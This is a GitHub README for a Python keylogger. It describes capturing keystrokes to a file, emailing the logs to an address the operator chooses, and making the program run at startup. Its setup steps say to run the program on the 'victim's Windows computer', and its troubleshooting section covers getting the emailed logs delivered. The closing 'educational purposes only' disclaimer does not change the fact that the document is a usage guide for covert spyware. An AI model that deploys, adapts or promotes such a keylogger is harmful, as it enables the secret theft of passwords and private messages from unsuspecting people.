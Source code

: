 # Keylogger

**DESCRIPTION:**

**Note that [L CTRL + F12] is the only way to stop the keylogger once it is running.**

This is a basic keylogger. It captures keystrokes and records them locally in a file ```keylogs.txt```.

After a certain number of keystrokes (specified by the attacker), the script will email ```keylogs.txt``` to a specified email address. Duwe to Google's security features, the sender email address cnnot be a gmail account.

Additionally, immediately after the keylogger is stopped, the script will email ```keylogs.txt``` to a specified email address.

---

**INSTRUCTIONS:**

 - [Specify recipient address](https://github.com/bmattblake/Keylogger/blob/8db61caec1a7e96b66d36d98b00b23b28ae7ff03/.env#L1)
 - [Specify sender address](https://github.com/bmattblake/Keylogger/blob/8db61caec1a7e96b66d36d98b00b23b28ae7ff03/.env#L1)
 - [Specify SMTP server](https://github.com/bmattblake/Keylogger/blob/8db61caec1a7e96b66d36d98b00b23b28ae7ff03/settings.py#L21)
 - [Enter sender email address password](https://github.com/bmattblake/Keylogger/blob/8db61caec1a7e96b66d36d98b00b23b28ae7ff03/.env#L2)
 - Run the program on victim's Windows computer
 - Press [Left CTRL + F12] to stop the keylogger

---

**FEATURES:**

- Local Storage: Stores logs in a file ```keylogs.txt```.
- Email: Sends logs to a specified email address. Note: You must specify the following:
    - Sender email address
    - Sender email address account password
    - Recipient email address
    - SMTP server
    - Port number (default is 465)
- Program will automatically run at startup after it is manually executed once

---

**TROUBLESHOOTING:**

<u>If you connection to the SMPT server is closing unexpectedly, or you get an error message stating that the username and password cobination is incorrect:</u>
- Make sure to allow less-secure (third-party) apps to login to your email address
- Ensure that the smtp server that you provided is up

If your sender email address is a gmail account, and you are getting the following error:
```
smtplib.SMTPAuthenticationError: (535, b'5.7.8 Username and Password not accepted. Learn more at\n5.7.8  https://support.google.com/mail/?p=BadCredentials k125-20020a37a183000000b005f170f7e497sm4061876qke.47 - gsmtp')
```
Google no longer supports third-party programs to automatically sign into gmail accounts. It is recommended that you use a different email service. You can find more information here: https://support.google.com/accounts/answer/6010255.

If you get the following error:
```
ssl.SSLError: [SSL: WRONG_VERSION_NUMBER] wrong version number (_ssl.c:1129)
```
You have two options:
 - Make sure that your port number is 465. Port 465 is used for implicit TLS.
 - If you do not wish to use port 465, change [this line of code](https://github.com/bmattblake/Keylogger/blob/d992c8f8be0de920a1887fe8953062fe032b82be/keylogger.py#L112) from:  
    ```server = smtplib.SMTP_SSL(SMTP_SERVER, PORT)```  
    to:  
    ```server = smtplib.SMTP(SMTP_SERVER, PORT)```

---


**DISCLAIMER:**

This keylogger was made for educational purposes only. I do not condone any use of this keylogger for malicious intent.

